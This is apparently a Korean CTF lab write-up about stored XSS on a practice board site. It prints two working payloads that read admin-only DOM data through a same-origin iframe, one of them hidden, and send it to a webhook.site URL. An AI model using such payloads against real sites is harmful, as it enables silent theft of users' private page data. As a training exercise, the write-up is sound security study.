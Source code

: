```yaml
---
title: "Stealing DOM data via XSS (Same-Origin DOM Exfiltration)"
date: 2025-07-01
layout: single
toc: true
toc_label: "Stealing DOM data via XSS"
toc_icon: "book"
toc_sticky: true
tags: [web, xss, hacking]
header:
  teaser: /assets/web-screenshots/xss-dom-steal/stored-reflected-xss.png
---
```


# 개요

이 페이지는 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.

공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.

---

# 문제 풀이 정리

## Steal Info

![취약점 있는 곳](/assets/web-screenshots/xss-dom-steal/steal1_post.png)

게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](/assets/web-screenshots/xss-dom-steal/target_html.png)

누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](/assets/web-screenshots/xss-dom-steal/target_card-text.png)

위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/web-screenshots/xss-dom-steal/steal1_payload.png)

이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](/assets/web-screenshots/xss-dom-steal/steal1_access_admin.png)

URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](/assets/web-screenshots/xss-dom-steal/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

## Steal Info 2

![타겟 할 곳](/assets/web-screenshots/xss-dom-steal/steal2_burp_suite.png)

위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/web-screenshots/xss-dom-steal/steal2_payload.png)

`iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 

이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

- 사용자가 직접 게시물 클릭 시:

![게시물 클릭](/assets/web-screenshots/xss-dom-steal/steal2_access.png)

게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](/assets/web-screenshots/xss-dom-steal/steal2_access_admin.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

> **결과:**

![플래그 획득](/assets/web-screenshots/xss-dom-steal/steal2_flag.png)

**이렇게 관리자 권한 없이 플래그를 획득하는 데 성공했다.**